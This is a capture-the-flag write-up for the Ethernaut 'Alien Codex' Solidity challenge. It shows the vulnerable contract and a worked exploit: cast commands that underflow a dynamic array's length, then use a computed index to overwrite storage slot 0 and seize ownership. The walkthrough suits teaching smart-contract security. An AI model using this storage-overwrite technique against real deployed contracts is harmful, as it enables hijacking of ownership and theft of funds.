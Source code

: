## Alien Codex Level Outline

**Difficulty : 7/10**

You've uncovered an Alien contract. Claim ownership to complete the level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272)

## Solution

Inherited contracts share the same storage slot with their derived contracts. 

Meaning we need to modify storage slot 0 to complete this level as that is where the variable `owner` will live.

Remember that dynamic arrays are not stored contiguously in storage. Instead their intended **storage slot contains the size of the dynamic array** and to find the memory address where the dynamic array's element are stored, we have to calculate a keccak256 hash.

```
memory_address = keccak256(p)

where
- - -  
memory_address  : address of starting element of dynamic array
p               : storage position of dynamic array
```
> in our case, p = 1 as `address owner` and `bool contact` sharing storage slot 0 as both variables are less than 32bytes

### Walkthrough
##### 1. Call `make_contact()` so that we can satisfy the `contacted()` modifier
```console
cast send $LEVEL_ADDRESS "make_contact()" --private-key $PRIVATE_KEY
```

##### 2. Let's inspect storage and confirm that we need to target storage slot 1
```console
cast storage $LEVEL_ADDRESS 0
```
output :
```
0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
```

let's also find the current contract owner
```console
cast call $LEVEL_ADDRESS "owner()"
```
output :
```
0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
```

we can see that the variable `address owner` and `bool contact` have been packed into storage slot 0. We want to attack this storage slot to change the owner variable value to our address.

this means that stroage slot 1 will hold the length of our dynamic array `codex`

```console
cast storage $LEVEL_ADDRESS 1
```
output
```
0x0000000000000000000000000000000000000000000000000000000000000000
```
> this is correct as codex initially starts with a size of 0

##### 3. Forcing a underflow
if we call the `retract()` method, the length of `codex` will underflow resulting in the array having a length of 2^256, which is the same size as the total contract storage as the EVM reserves 2^256 slots of 32 bytes.

```console
cast send $LEVEL_ADDRESS "retract()" --private-key $PRIVATE_KEY
```

let's confirm that the underflow was succesful by checking storage slot 1 (which will hold the length of the array)
```console
cast storage $LEVEL_ADDRESS 1
```
output :
```
0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```


##### 3. Calculating attack parameters to modify storage slot 0
now that the length of `codex` is equal to the size of the contract storage, we can use the function `revise(uint,bytes32)` to modify any storage slot.

we know that the `owner` variable is located at storage slot 0, we have to provide an index to `revise(uint,bytes32)` such that it will overflow the maximal length of `codex` and point to storage slot 0.

calculation of index **revise_index** to cause an overflow to storage slot 0

```
codex_memory_address = keccak256(bytes32(1))

revise_index = 2^256 - codex_memory_address
```

to quickly calculate **revise_index**, open remix and run the following contract

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.4.8;

contract Calc {
    uint256 public revise_index;

    function getIndex() public {
        bytes32 codex_index = keccak256(bytes32(uint256(1)));
        revise_index = 2 ** 256 - 1 - uint(codex_index) + 1;
    }
}
```
> credit to [Igor Yalovoy](https://ylv.io/ethernaut-alien-codex-solution/) for the script

returns a value of :

```
revise_index=35707666377435648211887908874984608119992236509074197713628505308453184860938
```

when we call `revise(uint,bytes32)` with the value above as the index, it will overflow `codex` and point to storage slot 0. We can prove this quickly by adding the memory address of 'codex' with `revise_index` together

```
// codex memory address
0x4EF1D2AD89EDF8C4D91132028E8195CDF30BB4B5053D4F8CD260341D4805F30A 

// revise_index (in hex)
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6

// adding them together yields 
0x10000000000000000000000000000000000000000000000000000000000000000

// which overflows to 
0x0000000000000000000000000000000000000000000000000000000000000000
```
> bonus : we can target any address below `codex's memory address` by adding the index of the storage slot that we want to attack to `revise_index` e.g. to attack storage slot 3, we would calculate `revise_index = revise_index + 3`

##### 4. Sending transaction to complete level

we first need to **left pad** our EOA address because the address data type requires 20bytes but `revise` requires us to send it 32bytes
```
// example EOA
0x8aFF5cA996F77487a4f04F1ce905Bf3d27455580

// left-padding EOA with 12 bytes
0x0000000000000000000000008aFF5cA996F77487a4f04F1ce905Bf3d27455580
```
> one bytes 2^8 bits which is represented using 2 hex digits. so we left pad 12*2 zeros

```console
cast send $LEVEL_ADDRESS "revise(uint,bytes32)" 35707666377435648211887908874984608119992236509074197713628505308453184860938 \
$LEFT_PADDED_EOA --private-key $PRIVATE_KEY
```

## Further Reading
[Write up to a similar problem](https://weka.medium.com/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)

### [:arrow_left: Back To Main Menu](../README.md)

